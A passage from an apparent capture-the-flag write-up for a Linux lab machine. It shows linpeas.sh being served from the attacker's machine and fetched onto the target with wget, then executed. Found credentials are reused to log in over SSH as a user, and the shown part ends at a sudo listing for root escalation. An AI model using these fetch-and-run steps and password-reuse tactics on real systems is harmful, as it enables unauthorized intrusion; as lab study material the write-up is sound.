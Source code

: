 To transfer `linpeas.sh` from my local PC to the target machine, I used a Python web server. Here are the steps I followed:

1. **Start Python Web Server on Local PC**:
   On your local PC, navigate to the directory where `linpeas.sh` is located and start a Python HTTP server to serve the file:
   ```bash
   python3 -m http.server 8000```

Download linpeas.sh on Target Machine
```bash
wget http://<your-ip>:8000/linpeas.sh
```
Make the linpeas.sh script executable:
'chmod +x linpeas.sh' then run linpease.sh with './linpeas.sh'
### Privilege Escalation

After running `linpeas.sh` and reviewing the results, several items caught my attention:



- **Vhost Configuration Files**: The configuration files contained some addresses that might be useful.
- ![intressant1](https://github.com/user-attachments/assets/0c7748d0-9df1-4e36-a3be-07e5e9cdbf00)    ![interassant2](https://github.com/user-attachments/assets/462a899c-e2ff-46d4-8bd8-b639d86bf3af)


- **FTP Credentials**: Found FTP credentials that could potentially be used for accessing files.
- ![ftpcreds](https://github.com/user-attachments/assets/701045cf-4944-4e03-8294-87e0bf3e341a)

- **MongoDB Link**: Discovered a link to MongoDB that might be leveraged for further access.
- **Database Password**: Identified a database password that could be useful for accessing services or further escalation.


I decided to follow the easier path of trying the found passwords for passwprd reuse:
![configpass](https://github.com/user-attachments/assets/e538fa1a-df49-46bd-8ab2-9f056223d77d)

1. **Attempting Password Reuse**:
   - **FTP Credentials**: Used the found FTP credentials to access the FTP service.
   - **Database Password**: Tried the database password for various services to check for password reuse.

2. **Successful Escalation**:
   - The database password worked for logging in via SSH, allowing me to access the `mtz` user account.

This approach enabled me to escalate privileges and gain access to the `mtz` user.
### Privilege Escalation to root

After logging in as the `mtz` user via SSH, the first step was to check which sudo commands could be run. The result showed that `mtz` had permission to run `/opt/acl.sh` with `sudo` without a password.


```bash
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```
